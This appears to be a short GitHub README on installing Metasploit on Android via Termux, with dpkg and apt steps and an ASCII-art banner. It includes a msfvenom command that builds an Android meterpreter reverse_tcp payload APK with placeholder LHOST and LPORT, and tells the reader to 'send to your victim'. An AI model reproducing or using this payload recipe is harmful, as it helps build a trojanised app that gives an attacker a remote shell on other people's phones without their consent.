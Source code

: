 # metasploit-framework
Step to Install
gunzip metasploit_5.0.65-1_all.deb.gz
dpkg -i metasploit_5.0.65-1_all.deb
apt -f install
Optinal apt-get install ruby make clang autoconf curl wget ncurses-utils libsqlite postgresql libpcap libffi libxslt pkg-config
msfconsole 
msfvenom for create payload
example : msfvenom -p android/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT >R /storage/sdcard0/payload.apk
and send to your victim
   _____    ______________________________ ____  ____________  ____ 
  /  _  \  /   _____/\_   _____/\______   \\   \/  /\______  \/_   |
 /  /_\  \ \_____  \  |    __)_  |     ___/ \     /     /    / |   |
/    |    \/        \ |        \ |    |     /     \    /    /  |   |
\____|__  /_______  //_______  / |____|____/___/\  \  /____/   |___|
        \/        \/         \/      /_____/     \_/                
        
     Thanks To Wiki Termux For This Package & Your Tutorial 
